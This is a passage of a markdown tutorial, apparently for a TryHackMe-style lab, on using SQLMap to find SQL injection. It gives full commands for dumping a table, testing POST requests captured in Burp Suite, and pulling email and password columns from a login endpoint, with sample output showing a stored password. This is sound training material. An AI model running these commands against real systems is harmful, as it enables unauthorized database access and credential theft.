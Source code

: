 

## 6. Extracting Records from a Table
Suppose we want data from the `thomas` table inside the `users` database:
```
sqlmap -u http://sqlmaptesting.thm/search?cat=1 -D users -T thomas --dump
```
**Example Result:**
+---------------------+------------+---------+
| Date | name | pass |
+---------------------+------------+---------+
| 09/09/2024 | Thomas THM | testing |
+---------------------+------------+---------+

👉 Here we can see the username and password stored in the table.



## 7. POST-Based Testing
Sometimes websites send data via **POST requests** (e.g., login forms), not in the URL.  
To test this:
1. Intercept the request (e.g., with Burp Suite).
2. Save it into a file like `intercepted_request.txt`.
3. Run SQLMap with:
```
sqlmap -r intercepted_request.txt

```
## 8. Dump data from Database
Fetching the data of tables (after getting columns like email , password etc.):
```
sqlmap -u "http://10.201.57.31/ai/includes/user_login.php?email=test" -D ai -T <table_name> -C email,password --dump
```


# ✅ Summary
- **SQLMap** = Automated SQL Injection tool.  
- **Basic workflow**:
  1. Test URL for vulnerability (`-u`).  
  2. Extract database names (`--dbs`).  
  3. Extract tables (`-D dbname --tables`).  
  4. Dump data from a table (`-D dbname -T tablename --dump`).  
- Works with both **GET URLs** and **POST requests**.  

